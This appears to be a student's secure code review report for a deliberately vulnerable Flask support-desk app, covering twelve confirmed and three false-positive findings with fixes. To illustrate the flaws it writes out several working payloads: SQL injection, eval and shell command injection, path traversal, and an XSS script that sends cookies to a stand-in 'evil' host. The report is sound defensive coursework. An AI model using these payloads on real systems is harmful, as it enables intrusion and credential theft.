| Application | Scaler Support Desk (Flask web app) |
|---|---|
| Assessment Type | Secure Code Review (SAST + Manual) |
| Static Analysis Tool Used | Semgrep v1.168.0 (--config auto) |
| Total Findings Reported | 15 |
| True Positives | 12 |
| False Positives | 3 |
| Date | June 2026 |
| Reviewer | Gowtham Sai Yadav |
| Roll Number | 23BCS10168 |
This report documents a secure code review of the Scaler Support Desk
application. The codebase was first scanned with Semgrep (SAST,
--config auto), which produced 22 raw findings. Every finding was then
manually verified in context, de-duplicated (several lines were flagged by multiple
overlapping rules), and classified as a True Positive or False Positive. Manual review additionally
uncovered five high-impact issues that Semgrep did not report (IDOR, broken access
control, path-traversal read, arbitrary file upload, and stored XSS via |safe) — these
are access-control, business-logic, and template-escaping flaws that SAST tools typically miss.
| # | Vulnerability | File | Line(s) | Classification | Severity |
|---|---|---|---|---|---|
| 1 | SQL Injection in Ticket Search | models.py | 117–118 | TRUE POSITIVE | High |
| 2 | Remote Code Execution via eval() in SLA Score | app.py | 162–164 | TRUE POSITIVE | Critical |
| 3 | OS Command Injection in Diagnostics Ping | app.py | 190–191 | TRUE POSITIVE | Critical |
| 4 | Stored Cross-Site Scripting in Comments (|safe) | templates/ticket.html | 35 | TRUE POSITIVE | High |
| 5 | Path Traversal (Arbitrary File Read) in Attachment Download | app.py | 120, 123 | TRUE POSITIVE | High |
| 6 | Unrestricted / Arbitrary File Upload | app.py | 150–152 | TRUE POSITIVE | High |
| 7 | Broken Access Control – Admin Reports Missing Role Check | app.py | 207–213 | TRUE POSITIVE | High |
| 8 | Insecure Direct Object Reference (IDOR) – View Any Ticket | app.py | 98–101 | TRUE POSITIVE | High |
| 9 | Weak Password Hashing – Unsalted MD5 | utils.py | 7, 11 | TRUE POSITIVE | High |
| 10 | Hardcoded Flask SECRET_KEY | app.py | 20 | TRUE POSITIVE | High |
| 11 | Flask Debug Mode Enabled & Public Bind in Production | app.py | 220 | TRUE POSITIVE | High |
| 12 | Missing CSRF Protection on State-Changing Forms | templates/ticket.html (and login.html:8) | 14, 25, 39 | TRUE POSITIVE | Medium |
| 13 | SQL Injection in Tickets-by-Status | models.py | 135–136 | FALSE POSITIVE | N/A (False Positive) |
| 14 | OS Command Injection in Internal Ping | app.py | 200–203 | FALSE POSITIVE | N/A (False Positive) |
| 15 | Path Traversal in Attachment Preview | app.py | 131–134 | FALSE POSITIVE | N/A (False Positive) |
The three False Positives are the deliberately-safe counterparts of vulnerable endpoints: a whitelisted status filter, an IP-validated ping, and a containment-checked file preview. Each is flagged by a naive pattern match but is non-exploitable because of an upstream validator.
| Classification | TRUE POSITIVE | Severity | High |
|---|---|---|---|
| File | models.py |
CWE | CWE-89 |
| Function | search_tickets() (reached from app.py /tickets/search, line 76) | ||
| Line(s) | 117–118 | ||


The q request parameter from /tickets/search reaches
search_tickets() as term and is concatenated directly into the SQL
string: "... LIKE '%" + term + "%'". The string is then executed with no
parameterization or escaping, so an attacker can break out of the quoted literal and inject
arbitrary SQL. For example q=' UNION SELECT id,username,password_hash,role,
escalation_credits FROM users-- returns every user's password hash, and
q=%' OR '1'='1 returns all tickets. This is a genuine True Positive because
untrusted input flows unmodified into the query.
Information disclosure (dumping the users table including password hashes), data tampering, and potentially full read/write of the database.
Use parameterized queries: WHERE subject LIKE ? with the bound value ('%' + term + '%',). Never build SQL by string concatenation.
| Classification | TRUE POSITIVE | Severity | Critical |
|---|---|---|---|
| File | app.py |
CWE | CWE-95 / CWE-94 |
| Function | sla_score() | ||
| Line(s) | 162–164 | ||


The formula query parameter is passed straight into Python's
eval(). eval() executes any expression, not just arithmetic, so an
attacker fully controls code running on the server, e.g.
/tickets/sla-score?formula=__import__('os').popen('id').read() executes shell
commands. The try/except only catches errors, it does not sandbox anything.
True Positive — direct user-to-eval data flow.
Remote Code Execution — complete server compromise: read/modify any file, run commands, pivot into the internal network.
Never eval() untrusted input. For arithmetic use a safe parser (ast.literal_eval only handles literals) or implement an explicit allow-listed expression evaluator.
| Classification | TRUE POSITIVE | Severity | Critical |
|---|---|---|---|
| File | app.py |
CWE | CWE-78 |
| Function | ping() | ||
| Line(s) | 190–191 | ||


The host parameter is concatenated into a shell command and run via
os.popen("ping -n 1 " + host). os.popen invokes a shell, so shell
metacharacters are interpreted. host=127.0.0.1 & whoami (or
; id on Linux) runs attacker commands. There is no validation here — contrast
this with /diagnostics/ping-internal which validates the IP (see Finding 14).
True Positive.
Remote Code Execution / arbitrary OS command execution under the web-server account.
Use subprocess.run([...], shell=False) with an argument list and validate host with is_valid_ip() before use. Avoid os.popen.
| Classification | TRUE POSITIVE | Severity | High |
|---|---|---|---|
| File | templates/ticket.html |
CWE | CWE-79 |
| Function | comment loop (source: app.py post_comment(), line 110–111) | ||
| Line(s) | 35 | ||

A comment body is fully attacker-controlled, stored in the database, and then
rendered with {{ c.body|safe }}. The Jinja2 |safe filter disables
autoescaping, so any HTML/JavaScript in a comment is emitted verbatim. Posting a comment such
as <script>fetch('//evil/'+document.cookie)</script> executes in the
browser of every user (including admins) who opens that ticket. Every other field in
the templates is correctly auto-escaped; only this one opts out. Semgrep's default Python
ruleset did not flag the Jinja |safe usage — this was found by manual review.
True Positive (persistent/stored XSS).
Stored XSS — session/cookie theft, account takeover, admin compromise, action forgery, and defacement, affecting all viewers of the ticket.
Remove |safe so Jinja2 auto-escapes the value. If limited formatting is truly required, sanitize server-side with an allow-list library such as bleach.
| Classification | TRUE POSITIVE | Severity | High |
|---|---|---|---|
| File | app.py |
CWE | CWE-22 |
| Function | download_attachment() | ||
| Line(s) | 120, 123 | ||

The route uses a <path:filename> converter (which allows slashes) and
builds the path by raw concatenation ATTACHMENTS_DIR + "/" + filename with no
canonicalization, then serves it with send_file(). A request such as
/tickets/1/attachments/../app.py or
..%2f..%2f..%2f..%2fetc%2fpasswd escapes the attachments directory and returns
arbitrary files. The safe counterpart preview_attachment() uses
resolve_within() (Finding 15) — this endpoint does not. Semgrep did not flag
the send_file sink; found by manual review. True Positive.
Information disclosure — read application source (app.py exposes the SECRET_KEY), the SQLite DB file with password hashes, OS files like /etc/passwd, and configuration.
Validate the resolved path stays within the attachments directory (reuse resolve_within() or werkzeug.utils.safe_join) and reject any path that escapes the base directory.
| Classification | TRUE POSITIVE | Severity | High |
|---|---|---|---|
| File | app.py |
CWE | CWE-434 / CWE-22 |
| Function | upload_attachment() | ||
| Line(s) | 150–152 | ||

The uploaded file is written using the attacker-supplied uploaded.filename
joined to the attachments directory, with no validation of file name, extension, content
type, or size. Two distinct problems: (1) the filename can contain traversal sequences
(../app.py, ../templates/base.html) so an attacker can overwrite
arbitrary files including application source and templates; (2) there is no file-type
restriction, so executable, HTML, or SVG content can be stored and later retrieved (and the
path-traversal download in Finding 5 can read it back). Found by manual review.
True Positive.
Arbitrary file write leading to Remote Code Execution (overwrite app.py / templates), stored XSS (malicious HTML/SVG), or Denial of Service (overwrite the DB).
Generate a server-side random filename; pass the user name through werkzeug.utils.secure_filename; validate extension/content-type against an allow-list; enforce a maximum size; store outside any web-served / source directory.
| Classification | TRUE POSITIVE | Severity | High |
|---|---|---|---|
| File | app.py |
CWE | CWE-862 / CWE-285 |
| Function | admin_reports() | ||
| Line(s) | 207–213 | ||

The /admin/reports handler only checks that a user is logged in
(if not user); it never verifies user["role"] == "admin". Any
authenticated normal user (e.g. alice/bob) can request
/admin/reports and view every user's tickets via all_tickets(). The
admin link is merely hidden in the navbar template (base.html) — that is
security-by-obscurity, not enforcement. Tools cannot infer the missing authorization; found by
manual review. True Positive.
Vertical privilege escalation and information disclosure — non-admin users read all users' support tickets and owner identities.
Enforce authorization on the server: check role == 'admin' (ideally via a reusable @admin_required decorator) and return 403 otherwise.
| Classification | TRUE POSITIVE | Severity | High |
|---|---|---|---|
| File | app.py |
CWE | CWE-639 / CWE-862 |
| Function | view_ticket() | ||
| Line(s) | 98–101 | ||

get_ticket(ticket_id) fetches a ticket purely by its primary key with no
check that it belongs to the current user. Although the dashboard only lists a user's own
tickets, any authenticated user can directly request /tickets/1,
/tickets/2, … and read other users' ticket subjects, bodies, and comments by
enumerating IDs. Found by manual review (business-logic flaw that SAST cannot detect).
True Positive (horizontal privilege escalation / IDOR).
Information disclosure — read other users' private support tickets and comment threads.
Enforce ownership in the query or handler: WHERE id = ? AND owner_id = ? (allow admins explicitly), and return 403/404 when the ticket is not owned by the requester.
| Classification | TRUE POSITIVE | Severity | High |
|---|---|---|---|
| File | utils.py |
CWE | CWE-916 / CWE-327 |
| Function | hash_password() / verify_password() | ||
| Line(s) | 7, 11 | ||


Passwords are hashed with a single, unsalted MD5
(hashlib.md5(password.encode()).hexdigest()) and verified the same way. MD5 is
fast and cryptographically broken: GPU rigs try billions of guesses per second and precomputed
rainbow tables reverse common hashes instantly. With no per-user salt, identical passwords
produce identical hashes. If the database leaks (e.g. via the SQLi in Finding 1 or the
path traversal in Finding 5), every password is recovered almost immediately. True
Positive. Note: the same MD5 used in fingerprint_bytes() for attachment
de-duplication is not security-sensitive — that usage in isolation would be a
false positive; the password usage is the real issue.
Credential compromise / mass account takeover after any database disclosure; trivial offline cracking.
Use a slow, salted password hashing algorithm — bcrypt, scrypt, or argon2 (e.g. werkzeug.security.generate_password_hash or hashlib.scrypt). Re-hash existing passwords on next successful login.
| Classification | TRUE POSITIVE | Severity | High |
|---|---|---|---|
| File | app.py |
CWE | CWE-798 / CWE-321 |
| Function | application config | ||
| Line(s) | 20 | ||


The Flask SECRET_KEY is a constant string committed in the source code. This
key signs the session cookie. Anyone who can read the source — directly, from a repository, or
via the path-traversal read in Finding 5 — knows the key and can forge or tamper with
signed session cookies, e.g. craft a cookie with role=admin or another user's
user_id. True Positive.
Session cookie forgery → authentication bypass, privilege escalation, and impersonation of any user/admin.
Load SECRET_KEY from an environment variable or secret manager, use a long random value, rotate it, and keep it out of source control.
| Classification | TRUE POSITIVE | Severity | High |
|---|---|---|---|
| File | app.py |
CWE | CWE-489 / CWE-215 |
| Function | __main__ / app.run() | ||
| Line(s) | 220 | ||


The app starts with app.run(debug=True, host="0.0.0.0", port=5050).
debug=True enables the Werkzeug interactive debugger: on any unhandled exception
it serves a web console that executes arbitrary Python (protected only by a PIN that is
derivable from predictable host data), and it leaks full stack traces, source snippets, and
environment details. host="0.0.0.0" binds to all network interfaces, exposing
this to the network rather than localhost. ENV_MODE defaults to
production, so this ships in a production posture. True Positive.
Remote Code Execution through the debugger console, sensitive information disclosure (tracebacks, source, configuration), and broad public exposure.
Set debug=False in production (gate via environment), run behind a hardened WSGI server such as gunicorn, and bind to a controlled interface rather than 0.0.0.0.
| Classification | TRUE POSITIVE | Severity | Medium |
|---|---|---|---|
| File | templates/ticket.html (and login.html:8) |
CWE | CWE-352 |
| Function | escalate / upload / comment forms | ||
| Line(s) | 14, 25, 39 | ||


The application is plain Flask with no CSRF defense (no Flask-WTF / CSRF token, no
SameSite cookie configuration). The escalate, upload, and comment forms perform
state-changing POST requests authenticated solely by the session cookie. A
malicious web page can auto-submit a cross-site form that spends a victim's escalation
credits, uploads files, or posts comments as the victim, because the browser attaches the
session cookie automatically. Semgrep reports this via its no-csrf-token rule
on the templates. True Positive.
Cross-Site Request Forgery — attacker-forced state changes (spend credits, post content, upload attachments) on behalf of authenticated victims.
Enable CSRF protection (Flask-WTF CSRFProtect), embed and validate a per-session anti-CSRF token in every state-changing form, and set session cookies to SameSite=Lax/Strict.
| Classification | FALSE POSITIVE | Severity | N/A (False Positive) |
|---|---|---|---|
| File | models.py |
CWE | CWE-89 (claimed) |
| Function | tickets_by_status() | ||
| Line(s) | 135–136 | ||


Semgrep flags the .format()-built SQL here as injection. However, the value
interpolated into the query is column = STATUS_COLUMNS.get(status). The user
input status is used only as a dictionary key against a fixed
server-side allow-list {open, closed, pending}. Any value not in that map yields
None, and the function returns early (the route then responds 400).
Therefore the string placed into the SQL is always one of three hardcoded constants — raw user
input never reaches the query. This is a classic tool False Positive: Semgrep pattern-matched
.format in a SQL string without modeling the allow-list lookup.
None. The whitelist makes injection impossible, so there is no exploitable impact.
No remediation required. Optional defense-in-depth: use a parameterized query or map each status to a constant query anyway, which also silences the scanner.
| Classification | FALSE POSITIVE | Severity | N/A (False Positive) |
|---|---|---|---|
| File | app.py |
CWE | CWE-78 (claimed) |
| Function | ping_internal() | ||
| Line(s) | 200–203 | ||


This endpoint uses the same os.popen("ping -n 1 " + host) sink as the genuine
command-injection bug (Finding 3), so Semgrep flags it identically. The difference is the
guard immediately above it: if not is_valid_ip(host): return 400.
is_valid_ip() calls ipaddress.ip_address(value), which only accepts
a literal IPv4/IPv6 address. A valid IP contains only digits, dots, colons and hex — none of
the shell metacharacters (; | & $ ` or spaces) needed to inject a command.
So nothing dangerous can reach os.popen. Semgrep cannot reason about the upstream
validator, hence a False Positive in this context.
None. The IP-literal validation neutralizes the injection vector, so it is not exploitable.
No remediation required for injection. Optional hardening: still prefer subprocess.run([..], shell=False) for defense-in-depth.
| Classification | FALSE POSITIVE | Severity | N/A (False Positive) |
|---|---|---|---|
| File | app.py |
CWE | CWE-22 (claimed) |
| Function | preview_attachment() | ||
| Line(s) | 131–134 | ||

This is the secure counterpart of the vulnerable download_attachment()
(Finding 5) and a sink a reviewer would naturally inspect for path traversal. It calls
resolve_within(ATTACHMENTS_DIR, filename), which does
(base / filename).resolve() to canonicalize the path (collapsing any
../ sequences) and then verifies the result remains inside the base directory,
returning None (→ 404) otherwise. Because traversal is resolved and the
containment check rejects anything outside the attachments folder,
../../etc/passwd is blocked. Pattern-matching send_file(user_input)
would flag it, but the guard makes it non-exploitable — a False Positive. Minor hardening
note: the check uses str.startswith, which could prefix-match a sibling
directory like attachments_x; no such directory exists here, so it is not
exploitable, but os.path.commonpath would be more robust.
None. Canonicalization plus the containment check prevent escaping the attachments directory.
No remediation required. Optional hardening: compare with os.path.commonpath or ensure a trailing separator in the prefix check; apply this same guard to download_attachment() (Finding 5).
supportdesk-app.zip and reviewed all source: app.py,
models.py, utils.py, and the Jinja2 templates.semgrep scan --config auto . over the codebase.
Raw machine-readable results are included in the repository
as semgrep_results.txt and semgrep_results.json.